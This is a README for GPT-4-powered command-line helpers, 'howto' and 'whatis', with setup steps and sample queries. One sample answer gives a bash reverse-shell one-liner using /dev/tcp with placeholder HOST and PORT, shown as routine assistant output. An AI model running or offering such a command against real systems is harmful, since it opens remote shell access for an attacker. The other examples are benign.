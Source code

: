 # howto & whatis

Simple, GPT-4 powered, command-line tools designed to assist IT professionals with their daily tasks.

## Setup

1. Set `OPENAI_API_KEY` environment variable containing OpenAI API key.
2. Download the release binaries or (modify the code and) build them by yourself using `cargo build -r`.
3. Place the `howto` and `whatis` binaries in your `PATH`.

## Usage examples

```shell
$ howto format string in Rust

Use the `format!` macro. For example: `let s = format!("{} {}", "Hello", "World");`

```

~~~shell
$ howto get reverse shell using bash

```bash
bash -i >& /dev/tcp/HOST/PORT 0>&1
```
~~~

```shell
$ whatis Log4Shell

Log4Shell is a vulnerability in Apache Log4j.
```

```shell
$ whatis decoded string: aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUQ==

The decoded string is: https://www.youtube.com/watch?v=dQw4w9WgXcQ

```
